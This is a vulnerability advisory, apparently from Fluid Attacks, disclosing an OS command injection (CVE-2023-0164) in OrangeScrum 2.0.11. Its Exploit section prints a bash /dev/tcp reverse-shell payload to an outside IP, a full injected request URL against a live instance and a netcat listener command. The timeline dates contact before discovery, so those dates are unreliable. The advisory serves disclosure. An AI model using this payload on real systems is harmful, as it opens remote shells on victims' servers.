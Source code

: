 ```yaml
---
slug: advisories/queen/
title: OrangeScrum 2.0.11 - OS Command Injection via projuniqid
authors: Carlos Bello
writer: cbello
codename: queen
product: OrangeScrum 2.0.11
date: 2023-01-16 12:00 COT
cveid: CVE-2023-0164
severity: 9.9
description: OrangeScrum 2.0.11 - OS Command Injection via projuniqid
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                          |
| --------------------- | -------------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - OS Command Injection via projuniqid |
| **Code name**         | [Queen](https://en.wikipedia.org/wiki/Queen_(band))      |
| **Product**           | OrangeScrum                                              |
| **Affected versions** | 2.0.11                                                   |
| **State**             | Public                                                   |
| **Release Date**      | 2023-01-16                                               |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | OS Command Injection                                                                                   |
| **Rule**              | [404. OS Command Injection](https://docs.fluidattacks.com/criteria/vulnerabilities/404)                |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 9.9                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0164](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0164)                          |

## Description

OrangeScrum version 2.0.11 allows an authenticated external attacker to
execute arbitrary commands on the server. This is possible because the
application injects an attacker-controlled parameter into a system
function.

## Vulnerability

This vulnerability occurs because the application injects an attacker-controlled
parameter into a system function.

### Exploit

To exploit this vulnerability, we just need to send the malicious command we want
the server to execute through the projuniqid parameter using the `$()` syntax.

```bash
$(bash -i+>& /dev/tcp/67.205.165.158/3000 0>&1)
```

```txt
https://retr02332bughunter.orangescrum.com/log_times/download_pdf_timelog?projuniqid=$(bash+-i+>%26+/dev/tcp/67.205.165.158/3000+0>%261)&usrid=&date=&strddt=&enddt=&dt_format=d/m/y&checkedFields=date,usr_name,task_no,task_title,hours,description,start,end,break,billable
```

Thus, we will only have to execute the command `nc -lvp 3000` on the attacker's malicious
server to receive the reverse shell from the victim server.

## Evidence of exploitation

![vulnerability-code-orangescrum](https://user-images.githubusercontent.com/51862990/211672912-1eb574f6-20bb-475d-8303-f443ba156163.png)

![vulnerability-orangescrum](https://user-images.githubusercontent.com/51862990/211672802-e1fd6b44-1f5a-414f-8f27-5fbba9d40267.png)

![explotation-orangescrum](https://user-images.githubusercontent.com/51862990/211674614-e71238c4-0fe3-4029-bb71-15c35c46e0e2.gif)

![exploit-success-orangescrum](https://user-images.githubusercontent.com/51862990/211672619-a0006c75-3f39-4cfd-9791-af389d8a37f2.png)

## Our security policy

We have reserved the ID CVE-2023-0164 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-01-10"
  contacted="2022-01-10"
  replied="2022-01-10"
  confirmed="2022-01-10"
  patched=""
  disclosure="2023-01-16">
</time-lapse>
